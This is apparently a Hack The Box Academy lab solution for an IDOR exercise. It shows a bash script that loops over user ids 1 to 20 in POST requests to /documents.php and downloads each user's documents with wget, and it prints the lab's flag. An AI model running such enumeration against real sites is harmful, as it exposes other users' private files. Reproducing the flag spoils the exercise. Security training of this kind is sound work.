 ## Question 1

### "Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a 'flag.txt' document."

After spawning the target machine and visiting its website's root webpage, students first need to intercept the request that retrieves documents:

![[HTB Solutions/CPTS/z. images/ff87a11b1b17440c31c58bc3936cbdb9_MD5.jpg]]

Students will notice that a POST request gets sent to `/documents.php`, along with the `uid` of the employee passed in the `uid` POST parameter; the web server returns the documents of the relevant employee by appending the file names in the `href` attribute within `anchor` tags:

![[HTB Solutions/CPTS/z. images/f40e6501eaa64384b49e6d5e19d44de1_MD5.jpg]]

Therefore, students need to write a script to loop over the first 20 employees' `uid` and capture their document names/links to subsequently download them:

Code: bash

```bash
#!/bin/bash

url="http://$1"

for i in {1..20}; do
	for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "/documents.*?\.[a-z]{3}"); 
	do
		wget -q $url$link
	done
done
```

After saving the script into a file, students need to run it and provide `STMIP:STMPO` as the first command line argument:

Code: shell

```shell
bash script.sh STMIP:STMPO
```

```
┌─[us-academy-1]─[10.10.14.20]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ bash script.sh 94.237.62.195:53190
```

Once the script finishes executing, students will find the flag `HTB{4ll_f1l35_4r3_m1n3}` in the file `flag_11dfa168ac8eb2958e38425728623c98.txt`:

Code: shell

```shell
cat flag_11dfa168ac8eb2958e38425728623c98.txt
```
